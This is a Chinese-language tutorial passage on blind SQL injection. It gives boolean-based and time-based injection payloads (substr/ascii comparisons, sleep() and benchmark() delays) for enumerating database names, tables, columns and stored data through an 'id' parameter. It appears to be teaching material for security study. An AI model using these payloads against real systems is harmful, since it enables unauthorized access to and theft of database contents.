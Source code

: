 #### 布尔型盲注

基于布尔型SQL盲注即在SQL注入过程中，应用程序仅仅返回`True`（页面）和`False`（页面）。
这时，我们无法根据应用程序的返回页面得到我们需要的数据库信息。但是可以通过构造逻辑判断（比较大小）来得到我们需要的信息

##### 注入流程

###### 判断注入点

id=1’ and 1=1 #页面正常

id=1' and 1=2 #页面不正常

###### 盲注常用函数

```
length()              #返回字符串的长度，例如可以返回数据库名字的长度 
substr()              #⽤来截取字符串 
ascii()		          #返回字符的ascii码
sleep(n)              #将程序挂起⼀段时间，n为n秒
if(expr1,expr2,expr3) #判断语句 如果第⼀个语句正确就执⾏第⼆个语句如果错误执⾏第三个语句
```

###### 通过true和false爆数据

```
id=1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=5 #修改数字，直到页面正常，得到当前数据库第一个表的长度
id=1' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))='t' #修改substr(str,1,1)里面数字猜解每个字母，得到表名
id=1' and (select count(column_name) from information_schema.columns where table_name='表名')=8 #爆字段数
id=1' and length(substr((select column_name from information_schema.columns where table_name= '表名' limit 0,1),1))=7 #爆第一个字段长度
id=1' and substr((select column_name from information_schema.columns where table_name= '表名' limit 0,1),1,1)='a'#爆字段名
id=1' and ascii(substr((select user from 库名.表名 limit 0,1),1,1))=97 #爆字段数据
```

#### 时间型盲注

适用于注入点页面返回无变化的页面。只有通过页面返回时间判断。

##### sleep()进行延时注入

```
id=1' and if(length(database())=8,sleep(10),1)--+#判断数据库长度是不是8个字符，如果是延时10秒
id=1' and If(ascii(substr(database(),1,1))=115,sleep(10),1)--+ #截取数据库每个字符判断，直到爆出数据库名
```

##### benchmark()进行延时注入

benchmark()是重复执行某表达式

```
benchmark(5000000,md5(1));  #重复执行5000000次md5(1),替换sleep()作用
```

